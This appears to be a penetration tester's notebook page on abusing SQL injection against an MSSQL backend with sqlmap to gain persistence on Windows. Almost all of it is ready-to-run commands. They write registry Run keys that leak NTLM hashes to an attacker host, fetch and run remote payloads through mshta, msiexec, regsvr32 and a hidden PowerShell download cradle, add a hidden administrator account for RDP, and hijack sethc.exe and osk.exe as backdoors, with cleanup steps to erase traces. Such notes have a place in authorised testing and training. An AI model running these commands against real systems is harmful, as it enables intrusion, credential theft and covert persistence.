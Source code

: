 # Windows Registry

Search Tag(s): #sqlmap #initial-access #persistence

## 01 - Create Registry Values

TODO: Provide a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

TODO: Gather conditions to takeover of the machine in the MSSQL backend

> [!IMPORTANT] Conditions
> 1. The DBMS backend must be MSSQL

![[Common Directories#^fa5f07]]

## 1.1 - Grab NTLM hashes

Run [[02 - DBMS Backend Relay Attack|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.2 - Execute callback shell in disk

Upload a callback shell in the windows temporary directory.

```
$ sqlmap -u "<URL>" --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="C:\Windows\Temp\shell.exe"
```

Then confirm the registry value is updated successfully.

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

Cleanup the registry value and confirm it's deleted.

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.3 - Execute callback shell in memory (fileless)

### 1.3.1 - Host a webserver to stage the payload

Mshta

```
$ sqlmap -u "<URL>" --reg-value="Updater" --reg-data="mshta.exe http://<IP>/payload.hta"
```

Msiexec

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="msiexec.exe /q /i http://<attacker_IP>/payload.msi"
```

Regsvr32

```
$ sqlmap -u "<URL>"--reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="regsvr32.exe /s /n /u /i:http://<attacker_IP>/payload.sct scrobj.dll"
```

PowerShell download cradle.

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

### 1.3.2 - Directly execute the callback shell

Fileless one-liner PowerShell payload.

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="conhost.exe --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

Fileless one-liner Python payload.

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="python.exe -c <payload>"
```

Cleanup the registry value and confirm it's deleted.

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.4 - Living off the Land

### 1.4.1 - Remote Desktop Protocol via Stick Keys Command Prompt

We must first take note of the registry values to clear traces afterwards.

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"
```

Add a terminal prompt in the registry value.

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

Create user account (Optional). Refer to this [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Create User/Malware Development/Helpers|link]].

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

Then confirm the modified changes.

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

Cleanup the registry value and double check to confirm.

```
$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

### 1.4.2 - Remote Desktop Protocol via Accessibility On-Screen Keyboard Command Prompt

We must first take note of the registry values to clear traces afterwards.

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"
```

Add a terminal prompt in the registry value.

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

Then confirm the modified changes.

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

Cleanup the registry value and double check to confirm.

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

---
## References

### Backlinks

- [[Registry Hive References]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third Party/Remote Monitoring and Management/AnyDesk/Manual/Living off the Land#^1f2bd0|Windows RDP Remote Login]]

### OWASP

- [OWASP: Pwning a shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

### NetSPI

- [NetSPI SQLWiki: Executing OS Commands Through SQL Server](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)